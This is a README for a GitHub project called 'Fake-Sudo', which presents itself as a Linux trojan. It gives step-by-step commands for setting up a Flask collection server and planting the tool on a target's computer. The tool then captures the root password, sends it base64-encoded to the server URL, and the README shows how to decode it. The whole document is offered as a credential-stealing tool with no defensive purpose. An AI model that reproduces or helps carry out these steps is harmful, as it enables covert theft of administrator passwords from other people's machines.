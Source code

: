 # Fake-Sudo
A linux trojan
## How to use
1. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
2. Install pip if you haven't already<br>`sudo apt instal pip -y`
3. Make a server<br>`pip install flask`<br>`python3 flask.py`
4. Go to the computer you want to steal the root password from
5. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
6. Setup the program<br>`chmod a+x setup.sh`<br>`source setup.sh`
7. Clear the screen<br>`clear`
8. Enter the public URL for the server you made (NOT 127.0.0.1)<br>`Site (include https:// or http://) <<< [your url]`
9. Once the server log says something, copy the end of the url and decode it<br>`echo [end of url] | base64 -d`, That's the root password!
10. That's it!
